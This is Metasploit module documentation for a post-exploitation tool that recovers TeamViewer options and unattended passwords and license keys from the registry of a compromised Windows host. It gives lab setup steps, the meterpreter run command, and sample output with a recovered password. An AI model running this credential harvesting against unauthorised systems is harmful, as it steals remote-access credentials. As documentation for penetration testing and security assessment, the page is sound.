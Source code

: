 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and TeamViewer 7+
  installed. The following passwords will be searched for and recovered:
  
  * Options Password -- All module-supported TeamViewer versions (7+)
  * Unattended Password -- TeamViewer versions 7 - 9
  * License Key -- TeamViewer versions 7 - 14
  
### Installation Steps

  1. Download the latest installer of TeamViewer.
  2. Select "Custom Install With Unattended Password" during
    installation
  3. After installation, navigate to
    `Extra > Options > Security > Advanced > Show Advanced Settings` and
    set the "Options Password"
    * Options can also be exported to a .reg file from here.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/teamviewer_passwords```
  3. If the system has registry keys for TeamViewer passwords they will be printed out.

## Options

  None.

## Scenarios

```
meterpreter > run post/windows/gather/credentials/teamviewer_passwords 

[*] Finding TeamViewer Passwords on WEQSQUGO-2156
[+] Found Exported Unattended Password: P@$$w0rd
[+] Found Options Password: op*****5
[+] Passwords stored in: /home/blurbdust/.msf4/loot/20200207052401_default_***.***.***.***_host.teamviewer__588749.txt
meterpreter > 
```
